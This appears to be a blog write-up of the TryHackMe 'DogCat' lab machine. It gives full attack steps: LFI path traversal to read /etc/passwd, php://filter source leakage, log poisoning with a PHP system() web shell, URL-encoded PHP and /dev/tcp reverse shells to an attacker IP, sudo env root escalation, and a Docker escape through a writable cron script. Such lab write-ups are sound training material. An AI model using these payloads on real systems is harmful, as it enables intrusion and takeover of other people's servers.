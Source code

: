 ```yaml
---
layout: post
title:  "THM Write-Up DogCat"
summary: Write-Up to the TryHackMe Machine DogCat
author: utnelson
date: '2022-02-14 11:17:23'
category: ['thm','write-up', 'medium']
thumbnail: \assets\img\posts\dogcat\title.png
keywords: dogcat, thm, box, easy, write-up, walkthrough, lfi, path, traversal, docker
permalink: /blog/write-up-dogcat/
---
```

Machine: [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Enumeration

```console
root@machine:~$ nmap 10.10.64.63 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-14 22:30 CET
Nmap scan report for localhost (10.10.64.63)
Host is up (0.043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two ports open. So lets check 80 with the running http server. 

<div class="text-center">
    <img src="\assets\img\posts\dogcat\page.PNG" class="rounded img-fluid">   
</div>
<br/>

The url looks interesting. `?view=cat`. Seems to be anything with LFI (local file inclusion). We could try to modify it with:    
`http://IPAdress/view=../../../../../../../etc/passwd`

We get an error:
<div class="text-center">
    <img src="\assets\img\posts\dogcat\onlydogcat.PNG" class="rounded img-fluid">   
</div>
<br/>

Just add `dog` in front the string. So it looks like this: `http://IPAdress/?view=dog/../../../../../../../etc/passwd`

A new error appears:

<div class="text-center">
    <img src="\assets\img\posts\dogcat\newerror.PNG" class="rounded img-fluid">   
</div>
<br/>

On [Hacktricks PHP Wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#wrapper-php-filter) I found something interesting. With the string: `php://filter/convert.base64-encode/resource=dog` we can see the source code of the `dog.php` in base64 encoding.

For decoding I used my running burpsuite.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\decodedog.PNG" class="rounded img-fluid">   
</div>
<br/>

```php
<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
```

This code prints just a random dog picture with every request. We can also look into the `php` code of the index.php. That is may more interesting.
Modify the string as follow: `?view=php://filter/convert.base64-encode/resource=dog/../index` and decode it again.

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

Nice! We can modify the `ext` variable and set it to none. So we can our payload from the first try again.
`http://IPAdress/?view=dog/../../../../../../../etc/passwd&ext=`

It's working. We can see the "/passwd" file. With burpsuite we have also a pretty good format.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\passwd.png" class="rounded img-fluid">   
</div>
<br/>

From my enumeration I know this is running on a apache server. We may can look for log files.
We finaly can find the at `/var/log/apache2/access.log`

<div class="text-center">
    <img src="\assets\img\posts\dogcat\log.PNG" class="rounded img-fluid">   
</div>
<br/>

Our User-Agent Header is beeing inside the logfile. We may can modify it that it will be executed with our main.php file. We try at first:
`<?php system("ls")?>` Ooops. This endend a few times with fatal error and I was not able to view the logs again. So I have restartet the machine more than 3 times.  
Finally the User-Agent:`<?php system($_GET['cmd']);?>` and the GET string `/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls` was fine and i was able to see the RCE.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\rce.PNG" class="rounded img-fluid">   
</div>
<br/>

So we just need to form a payload for a php reverse shell. I tried something new with the shell generator. [Generator](https://www.revshells.com/)

`php -r '$sock=fsockopen("10.14.20.70",9001);shell_exec("/bin/sh <&3 >&3 2>&3");'`

URL encoded: `/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.14.20.70",9001)%3bshell_exec("/bin/sh+<%263+>%263+2>%263")%3b'`
We need to URL encode this string. In burpsuite pretty easy with `ctrl+u`. Set a listener up with and boom shell:

```console
root@machine:~$ nc -lvp 9001
listening on [any] 9001 ...
connect to [10.14.20.70] from localhost [10.10.21.32] 59000
ls
cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
```
There we can find our first flag: `flag.php`

Flag 2 right next to it in the upper directory so only `cd..`

## Escalation

First try `sudo -l`

```console
sudo -l
Matching Defaults entries for www-data on 9e566ca216b3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 9e566ca216b3:
    (root) NOPASSWD: /usr/bin/env
```

Quick look to GTFObins and we find the way we can spawn a root shell.

`sudo env /bin/sh`

Boom root shell. Find the flag at `/root/flag3.txt`

## Escape docker

Looking around we find a `.dockerenv` file. So we are inside a docker container.
Further enumeration we can spot a interesting file inside `/opt/backups`, we see a `backup.sh` with write permissions.  

```console
tar cf /root/container/backup/backup.tar /root/container
```

Its frequently backups the container certainly with a cron job.
We put a simple reverse shell inside the `backup.sh` and set up a nc listener.

```console
echo "/bin/sh -i >& /dev/tcp/10.14.20.70/9002 0>&1" >> backup.sh
```

Boom Shell. Now we are on the machine itself and escaped the docker container. The fourth flag is inside the `/root` dir.
